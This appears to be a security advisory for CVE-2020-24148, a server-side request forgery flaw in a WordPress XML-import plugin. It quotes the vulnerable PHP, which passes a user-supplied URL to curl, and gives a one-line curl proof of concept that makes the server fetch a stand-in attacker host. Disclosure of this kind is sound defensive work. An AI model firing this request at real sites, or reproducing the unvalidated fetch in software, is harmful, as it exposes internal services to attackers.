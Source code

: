 # CVE-2020-24148

Server-side request forgery (SSRF) in the Import XML and RSS Feeds _(import-xml-feed)_ plugin **2.0.1** for WordPress via the `data` parameter in a `moove_read_xml` action.

## Vulnerable code:

`/moove-actions.php`:

```php
...
	public function moove_read_xml() {

		$args = array(
			'data' 		=> esc_sql( wp_unslash( $_POST['data'] ) ),
			'xmlaction'	=> sanitize_text_field( wp_unslash( $_POST['xmlaction'] ) ),
			'type'		=> sanitize_text_field( wp_unslash( $_POST['type'] ) ),
			'node'		=> sanitize_text_field( wp_unslash( $_POST['node'] ) ),
		);
		$move_importer = new Moove_Importer_Controller;
		$read_xml = $move_importer->moove_read_xml( $args );
		echo $read_xml;
		die();
	}
```

`/controllers/moove-controller.php`:

```php
class Moove_Importer_Controller {
	...
    public function moove_importer_get_content( $url ) {
        /* gets the data from a URL */

        $ch = curl_init();
        $timeout = 5;
        $user_agent = "Mozilla/5.0 (X11; Linux i686; rv:24.0) Gecko/20140319 Firefox/24.0 Iceweasel/24.4.0";

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_USERAGENT,$user_agent);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER,true);
        curl_setopt($ch, CURLOPT_FOLLOWLOCATION,true);
        curl_setopt($ch, CURLOPT_AUTOREFERER, 1);   
        curl_setopt($ch, CURLOPT_COOKIEFILE, '');
        curl_setopt($ch, CURLOPT_CONNECTTIMEOUT, $timeout);
        $data = curl_exec($ch);

        $errors = curl_error($ch);
        $response = curl_getinfo($ch, CURLINFO_HTTP_CODE);

        curl_close($ch);

        return $data;
    }
    public function moove_read_xml( $args ) {
        $return_array = array();
        $parent       = false;
        if ( $args['type'] === 'url' ) :
            $xml_string = Moove_Importer_Controller::moove_importer_get_content( $args['data'] );
            $xml_string = htmlspecialchars_decode( $xml_string );
    ...
```

## Proof-of-Concept

```bash
$ curl \
	-s "http://host/wp-admin/admin-ajax.php?action=moove_read_xml" \
	-d "type=url&data=http%3A%2F%2Fattacker%2F&xmlaction=preview&node=0"
```

## References

- [Nuclei templates](https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2020/CVE-2020-24148.yaml)
- [import-xml-feed:2.0.1](https://plugins.svn.wordpress.org/import-xml-feed/tags/2.0.1/)